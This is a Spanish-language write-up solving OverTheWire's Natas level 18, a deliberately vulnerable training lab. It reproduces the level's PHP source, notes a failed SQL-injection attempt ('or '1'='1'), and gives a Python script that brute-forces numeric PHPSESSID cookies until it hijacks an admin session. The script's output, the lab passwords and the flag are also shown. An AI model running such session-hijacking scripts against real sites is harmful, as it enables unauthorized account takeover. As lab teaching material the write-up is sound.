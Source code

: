 #Natas Level 17 → Level 18

Username: natas18

URL:      http://natas18.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas18.natas.labs.overthewire.org** 
- **Usuario    : natas18**
- **Contraseña : xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra dos campos donde tenemos que introducir el **usuario** y la **contraseña** para poder conseguir las credenciales para el nivel **natas19**

```html
Please login with your admin account to retrieve credentials for natas19.
Username: 
Password: 
```

Vamos a ver el código fuente de la prueba:

```php
<? 

$maxid = 640; // 640 should be enough for everyone 

function isValidAdminLogin()                         
{  
    if($_REQUEST["username"] == "admin")              /* This method of authentication appears to be unsafe and has been disabled for now. */ 
    { 
        //return 1; 
    } 

    return 0; 
} 

function isValidID($id) 
{ 
    return is_numeric($id); 
} 

function createID($user) 
{  
    global $maxid; 
    return rand(1, $maxid); 
} 

function debug($msg) 
{
    if(array_key_exists("debug", $_GET)) 
    { 
        print "DEBUG: $msg<br>"; 
    } 
} 

function my_session_start() 
{ 
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) 
    { 
    if(!session_start()) 
    { 
        debug("Session start failed"); 
        return false; 
    } 
    else 
    { 
        debug("Session start ok"); 
        if(!array_key_exists("admin", $_SESSION)) 
        { 
          debug("Session was old: admin flag set"); 
          $_SESSION["admin"] = 0; // backwards compatible, secure 
        } 
        return true; 
    } 
    } 

    return false; 
} 

function print_credentials() 
{ 
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) 
    { 
      print "You are an admin. The credentials for the next level are:<br>"; 
      print "<pre>Username: natas19\n"; 
      print "Password: <censored></pre>"; 
    } 
    else 
    { 
      print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19."; 
    } 
} 


$showform = true; 
if(my_session_start()) 
{ 
    print_credentials(); 
    $showform = false; 
} 
else 
{ 
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) 
    { 
      session_id(createID($_REQUEST["username"])); 
      session_start(); 
      $_SESSION["admin"] = isValidAdminLogin(); 
      debug("New session started"); 
      $showform = false; 
      print_credentials(); 
    } 
}  

if($showform) 
{ 
?> 

<p> 
Please login with your admin account to retrieve credentials for natas19. 
</p> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
Password: <input name="password"><br> 
<input type="submit" value="Login" /> 
</form> 

<? } ?>
```

De todo el código que nos aparece, lo más importante está en la función **print_credentials()** en el que vemo el siguiente código:

```php
if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) 
```

Intentamos logearnos con el truco de **SQL Injection** de introducir el usuario **admin** y la contraseña ** ' or '1'='1** pero nos muestra el siguiente mensaje

```html
You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.
```

Observamos como el campo **$_SESSION["admin"] == 1** tiene que estar a valor **1** pero nos encontramos que la función **isValidAdminLogin()** tiene comentado el **return 1** lo que impide poner el valor de 1 en ese campo

```php
function isValidAdminLogin()                         
{  
    if($_REQUEST["username"] == "admin")              /* This method of authentication appears to be unsafe and has been disabled for now. */ 
    { 
        //return 1; 
    } 
    return 0; 
} 
...
 $_SESSION["admin"] = isValidAdminLogin();    
```

Así que vamos a seguir mirando el código fuente para ver como podemos hacerle creer que somos los usuarios **admin**

Vamos a fijarnos en la función **created_ID** y el valor máximo de **$maxid=640**

```php
$maxid = 640; // 640 should be enough for everyone

function createID($user) 
{  
    global $maxid; 
    return rand(1, $maxid); 
} 
```

Esto crea una sesión aleatoria entre 1-640 donde los usuarios podrán ir logeandose. Además de los usuarios, también estará el usuario admin, al que también asignará su **PHPSESSID** correspondiente.

Utilizamos la herramienta **EditThisCookie** Para comprobar que efectivamente se manda un valor numérico en el campo **PHPSESSID** al servidor para que identifique al usuario. 

En este caso nos da un poco igual que usuario y password poner, ya que vamos a intentar acceder al sistema asignando valores entre **1-640** al campo **PHPSESSID** y viendo si nos devuelve el texto **You are an admin** tal y como hemos visto en algún reto anterior.

Para ello vamos a escribir un script en python que nos va a permitir hacer un **request** a la página del reto **Natas18** pasándole como parámetro un **PHPSESSID** con valores entre 1-640.

Lo llamaremos natas18.py

```python
import requests
 
for sessid in range(641):
	r = requests.get('http://natas18.natas.labs.overthewire.org?debug=1', auth=('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), cookies={'PHPSESSID':str(sessid)})
 
	if 'You are an admin' in r.content:
	    print r.content 
	    break
	else:
		print "PHPSESSID -> {0}\t NOPE :( ".format(str(sessid))
```

Y lo ejecutamos a ver si encontramos el **PHPSESSID** que nos devuelva la contraseña para el siguiente nivel.

```html
ikerburguera@:~/Desktop$ python natas18.py
PHPSESSID -> 0	 NOPE :( 
PHPSESSID -> 1	 NOPE :( 
PHPSESSID -> 2	 NOPE :( 
PHPSESSID -> 3	 NOPE :( 
...
PHPSESSID -> 606	 NOPE :( 
PHPSESSID -> 607	 NOPE :( 
PHPSESSID -> 608	 NOPE :( 
PHPSESSID -> 609	 NOPE :( 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
Parece ser que en la **PHPSESSID=610** hemos podido entrar como usuario **ADMIN** :sunglasses: :beers:

**FLAG** = {4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs}




